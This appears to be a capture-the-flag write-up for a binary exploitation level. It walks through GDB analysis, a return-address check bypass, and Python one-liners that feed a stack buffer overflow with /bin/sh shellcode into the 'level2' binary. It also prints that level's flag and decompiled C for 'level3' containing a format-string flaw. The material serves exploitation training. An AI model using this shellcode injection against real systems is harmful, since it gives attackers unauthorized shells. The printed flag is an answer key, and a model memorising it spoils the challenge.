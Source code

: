 1. Analyze the binary with GDB:

	```
	gdb ./level2
	i functions
	disas p
	b *<address_of_leave>
	run
	x/x $ebp+4
	x/50x $esp
	...
	```

2. Bypassing the Check:

	- The validation checks whether the return address falls within 0xb0000000. To bypass this, we ensure the return address points to an executable region in memory, such as the stack.

	- Overwrite the buffer and redirect execution to our shellcode.


3. Crafting the Exploit:

	- Buffer overflow with shellcode
	```python
	(python -c 'print("A" * 8) + "\x08\xf7\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + ("A" * 40)' ; cat ) | ./level2
	```

	(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" * 50)' ; cat ) | ./level2


4. GDB:

	```python
	run <<< $(python -c 'print("A" * 72)')
	```

## LEVEL2 - FLAG

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

## LEVEL3 - BINARY ANALYSIS

```c
void v(void) {
	char buffer[520];

	fgets(buffer, 512, stdin);
	printf(buffer);

	if (m == 64) {
		fwrite("Wait what?!\n", 1, 0xc, stdout);
		system("/bin/sh");
	}
	return;
}

void main(void) {
	v();
	return;
}
```
